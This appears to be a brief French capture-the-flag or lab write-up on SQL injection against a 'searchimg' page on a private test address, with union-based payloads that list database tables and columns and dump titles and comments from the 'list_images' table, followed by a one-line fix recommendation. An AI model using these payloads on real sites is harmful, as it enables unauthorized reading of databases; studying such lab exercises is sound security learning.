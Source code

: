 sur http://192.168.99.102/?page=searchimg

Nous savons déjà comment lister les colonnes et les tables de la db:

1 AND 1=2 UNION ALL SELECT table_name, column_name FROM information_schema.columns

un petit CMD + F d'image nous indique directement que la table à exploité est `list_images`:

dans la table list_images nous avons:
id
url
title
comment

la colonne `comment` etait un bon point de depart sur l'autre faille:

testons alors d'afficher les comment et le title:

1 AND 1 = 2 UNION ALL SELECT title, comment FROM list_images


Amelioration:

Gerer les sqli, protegers les strings envoyer en request.